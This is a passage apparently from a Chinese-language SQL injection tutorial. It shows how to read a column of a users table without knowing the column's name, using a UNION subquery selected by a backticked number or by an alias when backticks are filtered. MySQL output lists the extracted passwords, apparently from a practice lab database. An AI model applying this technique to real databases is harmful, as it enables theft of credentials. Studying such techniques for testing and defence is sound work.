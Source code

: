 ```sql
mysql> select `3` from (select 1,2,3 union select * from users)a;
+------------+
| 3          |
+------------+
| 3          |
| Dumb       |
| I-kill-you |
| p@ssword   |
| crappy     |
| stupidity  |
| genious    |
| mob!le     |
| admin      |
| admin1     |
| admin2     |
| admin3     |
| dumbo      |
| jiamu      |
+------------+
14 rows in set (0.00 sec)
```

末尾的 a 可以是任意字符，用于命名

当然，多数情况下，反引号会被过滤。当反引号不能使用的时候，可以使用别名来代替：

```sql
select b from (select 1,2,3 as b union select * from users)a;
```

```sql
mysql> select b from (select 1,2,3 as b union select * from users)a;
+------------+
| b          |
+------------+
| 3          |
| Dumb       |
| I-kill-you |
| p@ssword   |
| crappy     |
| stupidity  |
| genious    |
| mob!le     |
| admin      |
| admin1     |
| admin2     |
| admin3     |
| dumbo      |
| jiamu      |
+------------+
14 rows in set (0.00 sec)
```
